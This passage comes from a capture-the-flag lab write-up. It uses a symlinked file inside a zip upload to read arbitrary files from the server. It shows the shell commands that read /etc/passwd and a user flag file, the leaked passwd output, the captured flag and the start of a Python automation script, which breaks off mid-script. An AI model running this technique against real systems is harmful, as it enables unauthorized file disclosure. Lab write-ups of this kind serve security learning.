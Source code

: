 ```
$ ln -s ../../../../../../../../../../etc/passwd zipslip.pdf
$ zip -y zipslip.zip zipslip.pdf
  adding: zipslip.pdf (deflated 70%)
```

Uploading the zip and looking at the response gives us the base64 encoded data of the `/etc/passwd` file.

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:103:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:104:110:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
rektsu:x:1001:1001::/home/rektsu:/bin/bash
mysql:x:107:115:MySQL Server,,,:/nonexistent:/bin/false
_laurel:x:999:999::/var/log/laurel:/bin/false
```

We can see a user `rektsu` and probably get the user flag doing this!

```
$ ln -s ../../../../../../../../../../home/rektsu/user.txt zipslip-user.pdf
$ zip -y zipslip-user.zip zipslip-user.pdf
```

And surely enough after upload, visiting the URL and base64 decoding the response, we get our user flag! <mark>7fc124f67ec9ba3c47da4afb6e7a77ee</mark>

## Inital Access & Exploitation+

To make the process a bit quicker I ended up writing a python script to automatically perform the ZipSlip attack:

```python
import os, requests, sys

try:
    print('Made by sealldeveloper')
    path_trav="../../../../../../../../../../../../../../../../../../.."
    path=path_trav+sys.argv[1]
except:
    print(f'ERROR: Please provide a file path! eg. python3 {sys.argv[0]} /etc/passwd')
    sys.exit()

print('Making symlink...')
os.system(f'ln -s {path} zipslip.pdf')
```